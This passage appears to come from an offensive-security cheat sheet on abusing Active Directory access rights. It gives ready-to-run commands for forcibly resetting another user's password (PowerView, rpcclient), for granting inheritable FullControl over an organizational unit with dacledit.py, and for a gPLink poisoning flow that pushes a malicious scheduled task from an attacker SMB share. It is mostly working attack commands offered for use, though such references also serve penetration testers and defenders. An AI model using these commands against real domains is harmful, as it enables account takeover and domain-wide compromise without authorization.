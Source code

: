 * Windows:

 ```powershell
 $NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
 Set-DomainUserPassword -Identity 'TargetUser' -AccountPassword $NewPassword
 ```

* Linux:

 ```ps1
 # Using rpcclient from the  Samba software suite
 rpcclient -U 'attacker_user%my_password' -W DOMAIN -c "setuserinfo2 target_user 23 target_newpwd" 
 ```

## Organizational Units ACL

Access rights granted on Organizational Units can be exploited to compromise all the objects that are contained in it.

* [synacktiv/OUned](https://github.com/synacktiv/OUned) - The OUned project automating Active Directory Organizational Units ACL exploitation through gPLink poisoning

### Non privileged objects

A user having the `GenericAll` right (and thus `WriteDACL` permissions) over an OU could add a `FullControl` ACE to the OU and specify that this ACE should be inherited, which will effectively lead to the compromise of all child objects since they will inherit said ACE.

* Grant `Full Control` on **SERVERS** OU

 ```ps1
 dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'username' -target-dn 'OU=SERVERS,DC=lab,DC=local' 'lab.local'/'username':'Password1'
 ```

* Verify that we have `Full Control` ACL on **AD01-SRV1** inside **SERVERS**

 ```ps1
 dacledit.py -action 'read' -principal 'username' -target-dn 'CN=AD01-SRV1,OU=SERVERS,DC=lab,DC=local' 'lab.local'/'username':'Password1'
 ```

:warning: ACE inheritance from parent objects is disabled for `adminCount=1`

### Privileged objects

**Requirements**:

* `GenericWrite` OR `Manage Group Policy` links
* Create a machine account
* Add new DNS records

**Attack's Flow**: gPLink -> Attacker GPC FQDN -> GPT configuration files in Attacker SMB share -> execute a malicious scheduled task

* Edit the `gPLink` value to include a GPC FQDN pointing the attacker machine
* Create a fake LDAP server mimicking the real one, but with a custom GPC
* GPC's gPCFileSysPath value is pointing to the attacker SMB share
* The SMB share is serving GPT configuration files including a malicious scheduled task

